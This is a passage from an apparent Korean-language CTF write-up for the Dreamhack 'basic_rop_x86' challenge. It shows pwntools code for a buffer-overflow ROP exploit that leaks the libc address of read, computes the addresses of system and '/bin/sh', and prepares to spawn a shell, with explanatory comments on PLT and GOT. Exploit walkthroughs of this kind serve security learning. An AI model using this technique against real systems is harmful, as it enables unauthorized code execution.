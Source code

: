 ``` python
p.send(payload)
p.recvuntil(b'A' * 0x40)

# Calculate libe_base
'''
그 다음 동작
1. ret -> write@ple 실행 됨. (ROP 체인으로 넘어감.)
2. ROP 체인에 따라 
   write(1, read_got, 4) 실행
3. 이 때 출력되는 새로운 데이터가 read_got의 실제 libc 주소 4바이트임.
4. 이것을 p.recvn(4)으로 받는 것임.

read@got를 이용하여 libc_base 구하기
system과 sh의 실제 주소도 구하기.
'''
read = u32(p.recvn(4))
libc_base = read - read_offset
system = libc_base + system_offset
sh = libc_base + sh_offset

print(hex(libc_base))
print(hex(system))
```

#### 9) 다시 리셋된 main함수에서 버퍼 오버플로우를 이용하여 system("/bin/sh") 실행하기

``` python
from pwn import *

TEST = True
if TEST:
    p = process("./basic_rop_x86")
    e = ELF("./basic_rop_x86")
    libc = e.libc
else:
    p = remote('host3.dreamhack.games', 13458)
    e = ELF("./basic_rop_x86")
    libc = ELF("./libc.so.6")

# ROP(e)는 ELF에서 ROP 가젯을 자도응로 수집해서 활용할 수 있게 해 줌.
r = ROP(e)

'''
read_plt = e.plt["read"]
: read() 함수의 PLT(Procedure Linkage Table) 엔트리 주소.
: 프로그램이 read()를 호출할 때 실제로 점프하는 위치.
: 즉, ROP 체인에서 call read 같은 효과를 주고 싶을 때 사용.

read_got = e.got["read"]
: read() 함수의 GOT(Global Offset Table) 엔트리 주소.
: 실행 시작 시 read()의 실제 libc 주소가 없으므로, 처음 호출될 때 resolve 되어 GOT에 기록됨.
: puts(read_got) 같은 식으로 출력하면 libc의 실제 read() 주소를 leak할 수 있음.

main = e.symbols["main"]
: main() 함수의 주소.
:보통 첫 번째 ROP 공격(주소 leak) 후 프로그램을 정상 흐름으로 되돌리기 위해 main으로 점프시킴.
: 즉, "프로그램을 초기 상태로 리셋"하는 역할.
'''
read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]
```